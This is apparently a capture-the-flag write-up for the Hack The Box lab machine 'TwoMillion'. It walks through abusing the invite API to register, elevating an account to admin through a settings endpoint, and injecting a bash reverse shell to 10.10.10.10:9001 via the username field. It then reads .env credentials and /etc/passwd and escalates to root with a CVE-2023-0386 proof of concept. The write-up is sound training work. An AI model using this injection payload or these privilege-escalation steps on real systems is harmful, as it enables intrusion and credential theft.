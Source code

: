  </br>[![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=35&pause=1000&color=6A0DAD&width=435&lines=TwoMillion)](https://git.io/typing-svg)
</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic1.png" alt="Alt Text">
</a>
</br>
</br>
</br>

## Nmap-scan
</br>

First, let's initiate a quick scan utilizing nmap.


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic2.png" alt="Alt Text">
</a>
</br>

We need to include "2million.htb" in our /etc/hosts file

```bash
echo "10.10.11.221 2million.htb" >> /etc/hosts
```

</br>

## Trying to have access

Upon visiting the website, I discovered it's an outdated version of the HackTheBox platform. To gain access, I attempted to log in using the default credentials, but unfortunately, I received an error message indicating that the user not found.
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic3.png" alt="Alt Text">
</a>
</br>
While exploring the website, I discovered that I can join the platform by obtaining an invite code.
</br>

`http://2million.htb/invite`

</br>
I came across a JavaScript code that contains some intriguing elements. 
</br>

`/js/inviteapi.min.js`

<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic4.png" alt="Alt Text">
</a>

</br>
I am interested in generating my own invite code as well.
</br>
I will examine the endpoint "/api/v1/invite/how/to/generate" to gather more information.
</br>


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic6.png" alt="Alt Text">
</a>
</br>

After decoding the ROT13 cipher, we discovered the method to generate our own invite code.


</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic7.png" alt="Alt Text">
</a>

Let's proceed with generating our invite code using the discovered method

</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic5.png" alt="Alt Text">
</a>
</br>
Since the invite is encoded using base64, it should be easy to obtain one.

</br>

```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq .data.code -r |base64 -d
```

## Gain administrative

</br>

Upon logging in with the provided invite code, I have started exploring additional API resources to discover more useful functionalities.
Fortunately, I have come across some intriguing findings that piqued my interest. "/api/v1"


```bash
curl -s http://2million.htb/api/v1 -H "Cookie: PHPSESSID=b0akpjn8hlj8h2085dv674tgkv" |jq .
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}

```

</br>

I will attempt to update my settings

</br>

```json
"PUT": {
         "/api/v1/admin/settings/update": "Update user settings"
      }
```

</br>

<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic8.png" alt="Alt Text">
</a>


Great!

## Having a RCE

Now that we have administrative access, we can examine :

```json
 "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
```

It seems that after spending some time searching, I have discovered a vulnerability in the username parameter. This is a significant finding as it allows you to inject commands and potentially gain unauthorized access.

`/api/v1/admin/vpn/generate`


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic9.png" alt="Alt Text">
</a>

Now that we have identified the Remote Code Execution (RCE) vulnerability, we can exploit it 

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=b99sapscujo3dg9l7c454tt4fm" -H "Content-Type: application/json" -d '{"username":"$(bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1')"}'
```

Congratulations! HAHA

## Privilege 

After logging in, I discovered an interesting file named ".env".

 ```bash
 
 ls -la
total 56
drwxr-xr-x 10 root root 4096 Jun  8 21:40 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Jun  8 21:40 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
```
```bash
cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=S************3
```

Upon inspecting the ".env" file, I found that it contains admin credentials

```bash

cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
```


`admin is an user`

I will attempt to switch to the "admin" user by using the provided pass

we have gained access 'YoHOO'

While conducting further research, you came across some intriguing findings indicating the presence of a potential CVE

```bash
admin@2million:/var/www/html$ find / -perm -u=s -type f 2>/dev/null |grep "tmp"
/tmp/cve/ovlcap/upper/file
/tmp/.troll80lvl/CVE-2023-0386/ovlcap/upper/file
/tmp/CVE-2023-0386-main/ovlcap/lower/file
/tmp/CVE-2023-0386-main/ovlcap/upper/file
```


CVE-2023-0386  POC: 
[Link to CVE-2023-0386 Repository](https://github.com/xkaneiki/CVE-2023-0386)

By following the POC, I have acquired the ability to escalate the privileges to the root user level.

```bash
root@2million:/var/www/html# whoami
root
root@2million:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```
